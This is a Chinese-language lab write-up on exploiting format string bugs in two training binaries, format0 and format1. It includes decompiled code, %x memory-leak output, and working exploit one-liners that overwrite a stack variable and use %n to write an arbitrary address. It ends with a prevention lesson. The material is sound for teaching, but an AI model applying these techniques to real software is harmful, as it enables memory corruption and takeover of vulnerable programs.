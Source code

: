 # <center>格式化字符串实验1</center>

## 实验概述

### 【目的】
1. 运行format0，得到输出`you have hit the target correctly :)`，要求输入的参数不超过十个字节。
### 【环境】
Linux
### 【工具】
python
### 【原理】
格式化字符串，是一些程序设计语言在格式化输出API函数中用于指定输出参数的格式与相对位置的字符串参数，例如C、C++等程序设计语言的printf类函数，其中的转换说明（conversion specification）用于把随后对应的0个或多个函数参数转换为相应的格式输出；格式化字符串中转换说明以外的其它字符原样输出。[1]
## 实验步骤

### 【步骤】

#### format0
```
$ binwalk format0

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```
```
int __cdecl vuln(char *format)
{
  int result; // eax@1
  char s; // [sp+Ch] [bp-4Ch]@1
  int v3; // [sp+4Ch] [bp-Ch]@1

  v3 = 0;
  sprintf(&s, format);
  result = v3;
  if ( v3 == 0xDEADBEEF )
    result = puts("you have hit the target correctly :)");
  return result;
}
```
分析`vuln()`函数可以发现，s字符数组和变量v3相邻，可以通过sprintf()来溢出控制v3的值。
另外一个要求是不超过十个字符，这里可以使用格式化字符的占位符来输入64
```
$ python -c 'print "%64d\xef\xbe\xad\xde"' | xargs ./format0
you have hit the target correctly :)

```

#### foramt1

```
$ binwalk format1

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```
```
int __cdecl vuln(char *format)
{
  int result; // eax@1

  printf(format);
  result = target;
  if ( target )
    result = puts("you have modified the target :)");
  return result;
}
```
双击target变量，发现是存在bss段的全局变量。
```
.bss:0804A024 target          dd ?                    ; DATA XREF: vuln+14r
.bss:0804A024 _bss            ends
.bss:0804A024
```
target 变量的地址也可以使用objdump求得
```
$ objdump -t format1 | grep target
0804a024 g     O .bss	00000004              target
23
```
注意到`printf()`直接把format作为参数，意味着这里存在一个格式化字符串漏洞。
首先要求得format的偏移量。
```
$ ./format1 AAAA`python -c 'print ".".join(["%d:%%x" % i for i in range(1,200)])'`
AAAA1:f7fb6000.2:f7fb4244.3:f7e1e0ec.4:2.5:0.6:ffffca58.7:804848f.8:ffffcd07.9:ffffcb04.10:ffffcb10.11:80484c1.12:f7fb63dc.13:ffffca70.14:0.15:f7e1e637.16:f7fb6000.17:f7fb6000.18:0.19:f7e1e637.20:2.21:ffffcb04.22:ffffcb10.23:0.24:0.25:0.26:f7fb6000.27:f7ffdc04.28:f7ffd000.29:0.30:f7fb6000.31:f7fb6000.32:0.33:49b7bdb.34:38c475cb.35:0.36:0.37:0.38:2.39:8048340.40:0.41:f7feeff0.42:f7fe9880.43:f7ffd000.44:2.45:8048340.46:0.47:8048361.48:804846b.49:2.50:ffffcb04.51:80484a0.52:8048500.53:f7fe9880.54:ffffcafc.55:f7ffd918.56:2.57:ffffccfd.58:ffffcd07.59:0.60:ffffd210.61:ffffd21b.62:ffffd230.63:ffffd247.64:ffffd259.65:ffffd28c.66:ffffd2a4.67:ffffd2bb.68:ffffd2ca.69:ffffd2fe.70:ffffd312.71:ffffd323.72:ffffd33a.73:ffffd34a.74:ffffd36d.75:ffffd37f.76:ffffd396.77:ffffd3da.78:ffffd3f1.79:ffffd41e.80:ffffd42b.81:ffffd9b3.82:ffffd9c6.83:ffffd9df.84:ffffda19.85:ffffda4d.86:ffffda76.87:ffffdac8.88:ffffdafb.89:ffffdb3f.90:ffffdb56.91:ffffdbe9.92:ffffdbfb.93:ffffdc1c.94:ffffdc3a.95:ffffdc4f.96:ffffdc69.97:ffffdc72.98:ffffdc86.99:ffffdc99.100:ffffdcaa.101:ffffdcb9.102:ffffdcef.103:ffffdd0a.104:ffffdd27.105:ffffdd39.106:ffffdd4a.107:ffffdd5c.108:ffffdd76.109:ffffdd95.110:ffffdd9d.111:ffffddb0.112:ffffddbf.113:ffffddd1.114:ffffddfd.115:ffffde18.116:ffffde28.117:ffffde64.118:ffffdeca.119:ffffdedd.120:ffffdefd.121:ffffdf07.122:ffffdf26.123:ffffdf31.124:ffffdf4b.125:ffffdf5e.126:ffffdf80.127:ffffdf94.128:ffffdfa8.129:ffffdfcd.130:ffffdfd9.131:0.132:20.133:f7fd8dc0.134:21.135:f7fd8000.136:10.137:f8bfbff.138:6.139:1000.140:11.141:64.142:3.143:8048034.144:4.145:20.146:5.147:9.148:7.149:f7fda000.150:8.151:0.152:9.153:8048340.154:b.155:3e8.156:c.157:3e8.158:d.159:3e8.160:e.161:3e8.162:17.163:0.164:19.165:ffffccdb.166:1a.167:0.168:1f.169:ffffdfee.170:f.171:ffffcceb.172:0.173:0.174:e0000000.175:cd2f73a2.176:fd127d87.177:68381562.178:69d375ee.179:363836.180:0.181:0.182:0.183:662f2e00.184:616d726f.185:41003174.186:31414141.187:2e78253a.188:78253a32.189:253a332e.190:3a342e78.191:352e7825.192:2e78253a.193:78253a36.194:253a372e.195:3a382e78.196:392e7825.197:2e78253a.198:253a3031.199:31312e78
```
%x表示按十六进制输出。
可以发现在185偏移附近有重复出现的0x41，我们挨个进行试探。
```
lometsj@ubuntu:~/prostar$ ./format1 `python -c 'print "ABCD" + "X" * 4 + "%186$x."'`
ABCDXXXX36383125.
lometsj@ubuntu:~/prostar$ ./format1 `python -c 'print "ABCD" + "X" * 4 + "%185$x."'`
ABCDXXXX58585858.
lometsj@ubuntu:~/prostar$ ./format1 `python -c 'print "ABCD" + "X" * 4 + "%184$x."'`
ABCDXXXX44434241.
```
在偏移等于184时，刚好输出0x44434241，即'ABCD'。
这里引入另外一个格式化符号%n，%n与其他格式说明符号不同。%n不向printf传递格式化信息，而是令printf把自己到该点已打出的字符总数放到相应变元指向的整形变量中。
通常来说，%n是这样使用的。
```
      strlen('abcd----')
          |           |
          |           |
printf("abcd-----%n",&len)

(len = strlen('abcd----'))
```
在这道题中，184偏移位置的值等于我们输入数据的前4位，那么我们置前四位为target变量的地址，并在184偏移处使用%n格式化，就会令target变量得到一个非零的赋值。
```
$ ./format1 `python -c 'print "\x24\xa0\x04\x08" + "X" * 4 + "%184$n."'`
$�XXXX.you have modified the target :)

```
### 【总结】
本次实验主要熟悉了格式化字符串的溢出，通过%x泄露内存数据，通过%n来进行任意地址写的漏洞。

可以发现，格式化字符串漏洞发生的原因是程序将格式化字符串的权限交给用户，即用户可以操作格式化字符串的内容。

要预防这类情况，在使用格式化字符串函数时，format参数的权限一定不能交给用户。